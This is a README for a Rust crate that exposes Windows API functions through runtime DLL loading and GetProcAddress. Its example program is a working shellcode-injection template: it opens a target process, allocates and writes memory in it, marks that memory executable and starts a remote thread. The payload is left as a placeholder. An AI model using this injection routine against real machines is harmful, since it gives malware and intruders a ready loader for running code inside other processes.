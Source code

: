 # dynamic-winapi

Provide raw FFI bindings to the Windows API by dynamically loading DLLs and resolving the functions with [GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress).

This project is not a replacement for the [winapi-rs](https://github.com/retep998/winapi-rs) crate and you will more than likely require it if you use this project.

## Example

Cargo.toml
```toml
[dependencies]
base64 = "0.13"
dynamic-winapi = { git = "https://github.com/postrequest/dynamic-winapi", branch = "main" }
winapi = { version = "0.3", features = [] }
```
main.rs:
```Rust
use dynamic_winapi::um::{
    processthreadsapi::{CreateRemoteThreadEx, OpenProcess},
    memoryapi::{VirtualAllocEx, VirtualProtectEx, WriteProcessMemory},
};
use winapi::ctypes::c_void;
use winapi::um::winnt::{
    MEM_COMMIT, PAGE_EXECUTE_READ, PAGE_READWRITE, PROCESS_ALL_ACCESS,
};

fn main() {
    // insert target PID
    let pid = 5100;
    // insert base64 encoded shellcode
    let shellcode_b64 = "<insert-valid-base64>";
    let mut shellcode = base64::decode(shellcode_b64).unwrap();
    let shellcode_ptr: *mut c_void = shellcode.as_mut_ptr() as *mut c_void; 

    // get process handle
    let handle = unsafe {OpenProcess().unwrap()(
        PROCESS_ALL_ACCESS,
        0x01,
        pid
    )};

    // alloc payload
    let addr_shellcode = unsafe {VirtualAllocEx().unwrap()(
        handle,
        0 as _,
        shellcode.len(),
        MEM_COMMIT,
        PAGE_READWRITE
    )};
    let mut ret_len: usize = 0;
    let _ = unsafe {WriteProcessMemory().unwrap()(
        handle,
        addr_shellcode,
        shellcode_ptr,
        shellcode.len(),
        &mut ret_len
    )};

    // protect and execute
    let mut old_protect: u32 = 0;
    let _ = unsafe {VirtualProtectEx().unwrap()(
        handle,
        addr_shellcode,
        shellcode.len(),
        PAGE_EXECUTE_READ,
        &mut old_protect
    )};
    let _ = unsafe {CreateRemoteThreadEx().unwrap()(
        handle,
        0 as _,
        0,
        std::mem::transmute(addr_shellcode),
        0 as _,
        0,
        0 as _,
        0 as _
    )};
}
```

## Feedback

Feel free to file an issue or make a request for APIs [here](https://github.com/postrequest/dynamic-winapi/issues/new).

## Acknowledgments
[@retep998](https://github.com/retep998) for [winapi-rs](https://github.com/retep998/winapi-rs). This project would not have been possible without this, so if you use `dynamic-winapi` or [winapi-rs](https://github.com/retep998/winapi-rs), please consider supporting [@retep998](https://github.com/retep998) [here](https://patreon.com/retep998).  
